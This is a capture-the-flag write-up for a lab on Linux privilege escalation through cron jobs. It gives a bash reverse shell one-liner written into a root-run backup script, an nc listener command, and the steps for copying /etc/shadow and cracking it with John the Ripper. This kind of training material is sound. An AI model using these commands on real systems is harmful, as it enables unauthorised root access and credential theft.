 ## Privilege Escalation Cron Jobs Solution

### Notes: 
- Check `etc/crontabs` for script files that are run as root but the current user can access. Can change the script for reverse shell.
- Check `etc/crontabs` for script files that have been deleted already but not removed from crontabs. Can create the same file.
  - Check path. If home/{user} included then can create in currrent users home folder. Also check if user has write permission on other path address
- tar, 7z, rsync etc. can be exploited using their wildcard feature

### How many user-defined cron jobs can you see on the target system?
1. Run `cat /etc/crontab`

![Screenshot 2024-02-08 at 10 20 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9cfb6faa-673c-4ad6-ae70-353c42eb8701)


**Answer: 4**

### What is the content of the flag5.txt file?
1. We can see in the crontabs there is a file /home/karen/backup.sh. Run the `cat /home/karen/backup.sh` to check its contents.
2. We also discover that we have access to the file.

![Screenshot 2024-02-08 at 10 31 06 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7357ebe4-23d2-48d1-b498-6ff72f231262)

4. Modify this file to cp flag5.txt to launch a reverse shell
5. Let's launch a listener at port 9999 in our kali machine. 
`nc -lvnp 1234`

6. Let's locate our serve IP by running `ifconfig` in our kali machine get the `inet` of `tun0`

7. Run `vim /home/karen/backup.sh` and modify the code to following to create a reverse shell. 
   ```
   #!/bin/bash
   
   bash -i  >& /dev/tcp/{tun0 inet ip}/1234 0>&1
   ```
9. Run `chmod +x backup.sh`
10. Wait on the listener terminal until reverse shell is activated.

![Screenshot 2024-02-09 at 12 41 26 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/56f31900-49b8-43bc-9694-d8e526fee1d9)

11. Run `cat /home/ubuntu/flag5.txt`

![Screenshot 2024-02-09 at 12 42 27 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/bfa16ef6-38d4-4803-998e-7bd30e76dd8d)

**Answer: THM-383000283**

### What is Matt's password? 
1. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine's `/etc/passwd` and `/etc/shadow`.
   
![Screenshot 2024-02-09 at 12 24 16 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/b8377ccf-22ed-46e2-bae6-ba36ac44a106)

![Screenshot 2024-02-09 at 12 25 52 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0e962f32-f3ca-4638-baf3-250ed0414ce3)

3. Unshadow the files:
   
   ```unshadow passwd.txt shadow.txt > passwords.txt```
   
4. Run john the ripper on `passwords.txt`
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![Screenshot 2024-02-09 at 12 28 56 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5f93b4cd-176f-41e6-855a-3006b6c44385)


**Answer: 123456**

